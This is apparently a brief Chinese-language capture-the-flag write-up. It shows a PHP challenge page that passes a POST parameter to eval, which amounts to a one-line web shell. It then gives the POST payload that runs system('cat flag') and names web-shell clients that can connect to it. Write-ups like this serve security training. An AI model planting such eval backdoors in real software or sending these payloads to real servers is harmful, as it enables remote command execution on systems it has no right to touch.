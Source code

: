 # 解题方法

源码：

```php
<?php
show_source(__file__);
@eval($_POST['zjnuctf']);
?>
```

直接构造POST：

`zjnuctf=system('cat flag');`

![](https://files.catbox.moe/nezq11.png)





或者菜刀、蚁剑连接。